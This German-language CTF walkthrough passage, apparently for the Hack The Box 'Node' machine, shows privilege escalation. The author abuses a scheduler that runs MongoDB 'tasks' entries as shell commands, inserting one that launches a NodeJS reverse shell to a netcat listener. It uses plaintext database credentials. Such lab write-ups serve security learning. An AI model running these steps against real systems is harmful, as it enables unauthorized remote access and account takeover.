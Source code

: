 **app.js** sucht in der Datenbank **tasks** nach Einträgen (Zeile 15)  und führt den Inhalt in **cmd** als Shellbefehl aus (Zeile 19-21).

Da wir die Anmeldedaten für die Datenbank haben und somit neue Einträge machen können, können wir dafür sorgen, dass z.B. ein Reverse Shell Skript ausgeführt wird.

Ich benutze dieses [NodeJS Reverse Shell Skript](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell#the-nodejs-reverse-shell) dafür.

Als nächstes nur noch NetCat Port 4444 abhören lassen und IP Adresse und Port im Skript dementsprechend ändern.

```shell
root@kali:~# nc -lnvp 4444
```

Unter /tmp/ können wir das Skript dann mithilfe von VI(M) einfügen.

```shell
mark@node:~$ vi /tmp/reverse.js
```

Nun können wir uns mit der Datenbank verbinden.

```shell
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler

Failed global initialization: BadValue Invalid or no user locale set. Please ensure LANG and/or LC_* environment variables are set correctly.
```

Wenn du diese Fehlermeldung bekommen solltest benutze folgendes.

```shell
mark@node:~$ export LC_ALL=C
```

So. 2\. Versuch.

```shell
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler

> db.tasks.insert({cmd: "/usr/bin/node /tmp/reverse.js"})
{
"acknowledged" : true,
"insertedId" : ObjectId("5a8d1e6cf84b3aa4294de40d")
}

```

Durch **db.tasks.insert({cmd: "/usr/bin/node /tmp/reverse.js"})** machen wir einen neuen Eintrag in der Datenbank **tasks**. **cmd**bekommt dabei den Wert **/usr/bin/node /tmp/reverse.js**, welcher dafür sorgt, dass node unser Reverse Shell Skript ausführt. Zeile 4-6 ist die Bestätigung, dass der Eintrag erfolgreich war.

Jetzt nur noch ein wenig warten, bis unser Eintrag ausgeführt wurde und wir haben Zugriff als **tom**.

```shell
tom@node:/$
```
